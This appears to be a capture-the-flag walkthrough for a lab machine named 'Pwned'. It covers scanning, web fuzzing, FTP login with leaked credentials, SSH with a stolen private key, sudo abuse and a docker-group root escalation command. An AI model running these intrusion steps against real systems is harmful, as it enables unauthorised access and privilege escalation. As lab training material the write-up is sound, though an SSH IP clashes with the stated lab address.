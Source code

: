 **Lab enviroment**

Kali: **10.0.2.21**

Pwned: **10.0.2.22**

## 1. INFORMATION GATHERING
### a. Check IP Kali
`ip a | grep /24`

![ip address](/images/ip_address.png)
### b. Netdiscover
`sudo netdiscover -r 10.0.2.0/24`

![netdiscover](/images/netdiscover.jpg)
### c. Nmap Target Ports
`sudo namp -sS 10.0.2.22`

![nmap target ports](/images/nmap_target_port.jpg)
### d. Nmap Target Services
`sudo nmap -sS -p 21,22,80 -A 10.0.2.22`

![nmap target services](/images/nmap_target_host.jpg)

## 2. ENUMERATION HTTP (PORT 80/tcp)
### a. Firefox
![enumeration_port_80](/images/enumeration_port_80.jpg)

### b. View Source

![view_source](/images/view_sources.jpg)

### c. Enumeration with ffuf
Can try enum urls with ffuf

`ffuf -u http://10.0.2.22/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

![enu_ffuf](/images/enu_ffuf.jpg)

Find 2 urls and try it

![nothing_html](/images/nothing_html.jpg)

Should pay attention to hidden_text link

![secret_dict](/images/secret_dict.jpg)

Save this list in a txt file

`vi secret_dic.txt`

![secret_dict_txt](/images/secret_dict_txt.jpg)

Try to enumerate again with ffuf using secret_dict list.

`ffuf -u http://10.0.2.22/FUZZ -w secret_dic.txt`

![enu_ffuf_secret](/images/enu_ffuf_secret.jpg)

Found a new URL

![pwned_vuln](/images/pwned_vuln.jpg)

And view source, credential log on ftp is show.

![nmap target services](/images/credential_ftp.jpg)

## 4. EXPLOITATION FTP (PORT 21/tcp)

Log on to ftp server

`ftp ftpuser@10.0.2.22`

![ncrack](/images/ftp_1.jpg)

Go to the shared folder and download files with get command to note.txt and id_rsa file.

`get note.txt`

`get id_rsa`

![ncrack](/images/ftp_get_file.jpg)

Read note.txt

![ncrack](/images/note_txt.jpg)

Try to connect via ssh by ariana

`sudo chmod 600 id_rsa`

`ssh -i id_rsa ariana@192.168.5.59`

![ncrack](/images/ariana_ssh.jpg)

And get the first flag user1.txt

![ncrack](/images/user1_txt.jpg)

We see that ariana can execute /home/messenger.sh file as selena user without password, so we can leverage to execute commands in name of selena.

![ncrack](/images/sudo.jpg)

`sudo -u selena ./messenger.sh`

Have the second flag, user2.txt

![ncrack](/images/user2_txt.jpg)

And can run id and see that selena is a member of the group docker.

![ncrack](/images/docker.jpg)

We can take advantage of this

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

Now we are root and can read root.txt in the root folder.

![ncrack](/images/root_txt.jpg)



